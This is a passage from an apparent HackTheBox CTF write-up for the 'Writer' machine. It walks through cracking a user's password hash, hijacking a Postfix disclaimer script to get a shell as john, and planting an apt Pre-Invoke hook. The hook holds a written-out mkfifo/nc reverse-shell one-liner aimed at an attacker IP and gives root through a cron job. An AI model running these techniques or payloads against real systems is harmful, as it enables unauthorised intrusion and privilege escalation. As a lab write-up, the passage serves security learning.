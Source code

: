 One of Kyle’s passwords is located in the databases, albeit it is hashed\:

pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=. Cracking this hash reveals that Kyle’s password is marcoantonio.

### John

The kyle user is part of multiple groups, one of them being the filter group which has permissions to edit the /etc/postfix/disclaimer file. Furthermore, after enumerating the ports running locally on the target, it was found that port 25 is open and running a Postfix SMTP server.

With pspy[[2]](#ftnt2) running on a separate kyle SSH instance, the following message was sent on the box\:

kyle@writer\:~$ nc localhost 25  
220 writer.htb ESMTP Postfix (Ubuntu)  
MAIL FROM\:kyle@writer.htb  
250 2.1.0 Ok  
RCPT TO\: john@writer.htb  
250 2.1.5 Ok  
Data  
354 End data with <CR><LF>.<CR><LF>  
Thanks for reading this writeup!  
.  
250 2.0.0 Ok\: queued as 9BB6F137

Upon sending this message, the following process occurred in the background\:

2021/08/25 00\:12\:54 CMD\: UID=1001 PID=23607  | /bin/sh /etc/postfix/disclaimer -f kyle@writer.htb -- john@writer.htb

Thus, the server is running as the john user (note UID=1001), and is executing the /etc/postfix/disclaimer file. Seeing as the kyle user had permission to edit this file, achieving a reverse shell as the john user could be obtained via appending a reverse shell to the top of the file and sending a message\:

┌─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]└──╼ $nc -lvnp 9001  
listening on [any] 9001 ...  
connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 49840  
/bin/sh\: 0\: can't access tty\; job control turned off  
$ whoami  
john

Persistence on this account was maintained by grabbing john’s ssh key.

### Root

John is part of the management group which has permission to edit the apt directory /etc/apt/apt.conf.d, a directory which is responsible for containing the apt configurations. As discovered using pspy, there is a cronjob running as root which performs the following command\: /usr/bin/apt-get update. Therefore, a malicious configuration that returns a reverse shell can be added to the directory as follows\:

{% highlight bash %}
john@writer\:~$ echo 'apt\:\:Update\:\:Pre-Invoke {"rm /tmp/f\;mkfifo /tmp/f\;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.80 9001 >/tmp/f"}\;' > /etc/apt/apt.conf.d/0xd4y-pwn
{% endhighlight %}
